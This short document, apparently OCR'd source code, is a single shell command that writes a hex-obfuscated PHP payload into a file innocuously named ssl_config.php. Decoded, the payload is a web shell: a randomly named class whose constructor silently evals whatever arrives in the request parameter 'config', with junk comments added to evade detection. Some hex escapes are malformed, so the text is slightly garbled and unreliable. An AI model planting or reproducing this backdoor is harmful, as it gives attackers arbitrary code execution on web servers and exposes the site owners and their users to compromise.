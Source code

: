 
echo    -e    "\\x3c\\x3f\\x70\\x68\\x70\\x20\\x63\\x6c\\x61\\x73\\x73\\x20\\x47\\x35\\x53\\x30\\x38\\x37\\x74\\x59\\x20\\x7b\\x20\\x70\\x75\\x62\\x6c\\x69\\x63\\x20\\x66\\x75\\x6e\\x63\\x74\\x69\\x6f\\x6e\\x20\\x5f\\x5f\\x63\\x6f\\x6e\\x73\\x74\\x72\\x75\\x63\\x74\\x28\\x24\\x48\\x30\\x38\\x35\\x6d\\x29\\x7b\\x20\\x40\\x65\\x76\\x61\\x6c\\x28\\x22\\x2f\\x2a\\x5a\\x23\\x433\\x434\\x68\\x2a\\x75\\x40\\x21\\x68\\x68\\x32\\x44\\x78\\x34\\x4f\\x39\\x49\\x43\\x2a\\x2f\\x22\\x2e\\x24\\x48\\x30\\x38\\x35\\x6d\\x2e\\x22\\x2f\\x2a\\x5a\\x23\\x433\\x434\\x68\\x2a\\x75\\x40\\x21\\x68\\x68\\x32\\x44\\x78\\x34\\x4f\\x39\\x49\\x43\\x2a\\x2f\\x22\\x29\\x3b\\x20\\x7d\\x7d\\x6e\\x65\\x77\\x20\\x47\\x35\\x53\\x30\\x38\\x37\\x74\\x59\\x28\\x24\\x5f\\x52\\x45\\x51\\x55\\x45\\x53\\x54\\x5b\\x27\\x63\\x6f\\x6e\\x66\\x69\\x67\\x27\\x5d\\x29\\x3b\\x3f\\x3e"     >       ssl_config.php
